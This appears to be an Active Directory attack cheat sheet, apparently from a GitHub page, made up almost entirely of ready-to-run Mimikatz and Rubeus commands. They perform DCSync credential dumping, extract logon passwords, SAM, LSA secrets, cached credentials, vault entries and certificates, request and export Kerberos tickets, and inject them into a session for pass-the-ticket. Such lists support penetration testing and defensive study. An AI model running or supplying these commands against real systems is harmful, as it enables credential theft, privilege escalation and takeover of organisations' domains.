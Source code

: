 #### Mimikatz DCSync attack specific user
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<USER> /domain:<DOMAIN>"'
```

#### Mimikatz DCSync attack everything
```
Invoke-Mimikatz -Command '"lsadump::dcsync /all"'
```

#### Mimikatz dump certs
```
Invoke-Mimikatz –DumpCerts
```

#### Mimikatz dump vault
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "vault::cred /patch" "vault::list"'
```

#### Mimikatz dump all to find privs
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::tickets /export" "kerberos::list /export" "vault::cred /patch" "vault::list" "lsadump::sam" "lsadump::secrets" "lsadump::cache"'
```

## Rubeus
#### Request TGT
- Use `/outfile:` to save to file.
- Use `/nowrap` for easier copying of ticket
- use `/ptt` to inject in current session
```
.\Rubeus.exe asktgt /user:<USER> /password:<PASSWORD> /domain:<DOMAIN> /ptt
.\Rubeus.exe asktgt /user:<USER> /rc4:<HASH> /domain:<DOMAIN> /ptt
```

#### Request TGS
```
.\Rubeus.exe asktgs /user:<USER> /ticket:<BASE64 TGT> /service:<CIFS>/<FQDN> /ptt
.\Rubeus.exe asktgs /user:<USER> /ticket:<TGT FILE KIRBI> /service:<CIFS>/<FQDN> /ptt
```

#### Dump tickets
```
./Rubeus.exe triage
./Rubeus.exe dump /luid:<ID> /service:<SERVICE> /nowrap
```

#### Save ticket to file
```
[System.IO.File]::WriteAllBytes("C:\Users\public\ticket.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```
